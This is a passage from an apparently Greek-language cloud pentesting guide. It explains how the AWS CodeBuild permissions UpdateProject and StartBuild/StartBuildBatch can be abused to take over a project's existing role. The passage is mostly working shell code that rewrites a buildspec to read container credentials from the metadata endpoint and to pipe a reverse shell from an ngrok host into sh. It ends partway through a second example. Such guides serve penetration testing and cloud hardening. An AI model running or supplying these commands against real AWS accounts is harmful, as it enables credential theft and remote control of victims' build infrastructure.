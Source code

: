 ### `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Όπως στην προηγούμενη ενότητα αλλά **χωρίς την άδεια `iam:PassRole`**, μπορείτε να εκμεταλλευτείτε αυτές τις άδειες για **να τροποποιήσετε υπάρχοντα έργα Codebuild και να αποκτήσετε πρόσβαση στον ρόλο που έχουν ήδη ανατεθεί**.

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"public.ecr.aws/h0h9t7p1/alpine-bash-curl-jq:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

# Note how it's used a image from AWS public ECR instead from docjerhub as dockerhub rate limits CodeBuild!

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
{% endcode %}
{% endtab %}

{% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```sh
REV_PATH="/tmp/codebuild_pwn.json"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | sh"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"codebuild_lab_3_project\",
\"source\": {
\"type\": \"NO_SOURCE\",
```